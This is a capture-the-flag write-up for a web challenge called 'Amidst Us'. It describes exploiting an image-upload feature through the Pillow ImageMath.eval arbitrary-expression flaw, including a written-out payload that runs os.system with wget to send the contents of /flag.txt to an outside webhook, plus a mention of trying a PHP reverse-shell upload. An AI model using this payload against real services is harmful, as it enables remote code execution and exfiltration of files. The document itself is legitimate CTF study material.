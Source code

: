# Amidst Us

We start off with a weird page where we can select a color that does not seem to do anything:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When clicking in the spaceship at the center of the website we can click on it and upload a file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If i upload a php reverseshell.php i get blocked but if i submit a reverseshell.php.jpg it seems to send at least a request:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i did not manage to do anything with that so i came back and tried to go slower:

I just go and look at how the app reacts when i upload a normal hackergobrrr.png image:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went and looked at how the image was treated since there was some sort of b64 string directly related to it and saw this:



and when i googled what this was i saw the first link that seemed interesting:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and indeed we have this function:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after googling around this exploit i found this:

{% embed url="https://github.com/advisories/GHSA-8vj2-vxx3-667w" %}

`PIL.ImageMath.eval` in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method `ImageMath.eval("exec(exit())")`.

so we need to take that and craft something that would lead to RCE or file reading:

```
ImageMath.eval("__import__('os').system('wget https://webhook.site/aa31223b-35e4-4679-aa22-8ea194c82870?flag=$(cat /flag.txt)')")
```

i put my payload in the eval function so everyone can see how the imagemath would handle it, so here we import os and send a request to a webhook server that i own and append the flag to the request so we can exfiltrate it:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I replace one of the 3 values with my payload and hit send and look at my webhook:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's flagged&#x20;
